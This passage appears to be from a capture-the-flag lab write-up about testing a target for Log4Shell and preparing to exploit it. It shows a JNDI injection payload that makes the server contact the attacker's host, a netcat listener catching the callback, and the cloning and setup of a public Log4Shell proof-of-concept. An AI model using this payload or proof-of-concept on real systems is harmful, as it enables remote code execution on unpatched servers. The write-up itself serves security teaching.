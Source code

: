 #### Proof of Vulnerability

To test for this, I'll send listen on TCP port 389 (LDAP default) with
`nc` and then enter a payload that will attempt to contact my host on
389:



    ${jndi:ldap://10.10.14.6/test}



If there's a connection to my host, then the server is likely vulnerable
to Log4Shell. On sending, I get a connection:



    oxdf@hacky$ nc -lnvp 389
    Listening on 0.0.0.0 389
    Connection received on 10.10.11.249 49682
    0
     `



### Log4Shell Exploit

#### Prep

I had good luck with [this
POC](https://github.com/kozmer/log4j-shell-poc) during Hackvent, so I'll
use it again. I'll clone the repo to my computer and install the
dependencies:



    oxdf@hacky$ git clone https://github.com/kozmer/log4j-shell-poc.git
    Cloning into 'log4j-shell-poc'...
    remote: Enumerating objects: 52, done.
    remote: Counting objects: 100% (12/12), done.
    remote: Compressing objects: 100% (12/12), done.
    remote: Total 52 (delta 0), reused 1 (delta 0), pack-reused 40
    Receiving objects: 100% (52/52), 38.74 MiB | 44.42 MiB/s, done.
    Resolving deltas: 100% (7/7), done.
    oxdf@hacky$ cd log4j-shell-poc/ 
    oxdf@hacky$ pip install -r requirements.txt
    Defaulting to user installation because normal site-packages is not writeable
    Requirement already satisfied: colorama in /usr/lib/python3/dist-packages (from -r requirements.txt (line 1)) (0.4.4)
    Collecting argparse
      Using cached argparse-1.4.0-py2.py3-none-any.whl (23 kB)
    Installing collected packages: argparse
    Successfully installed argparse-1.4.0  



There's also instructions on the repo for downloading a specific Java
binary from [this
page](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.md).
I'll download
[jdk-8u20-linux-x64.tar.gz](https://download.oracle.com/otn/java/jdk/8u20-b26/jdk-8u20-linux-x64.tar.gz)
from he bottom of that page, and extract it:
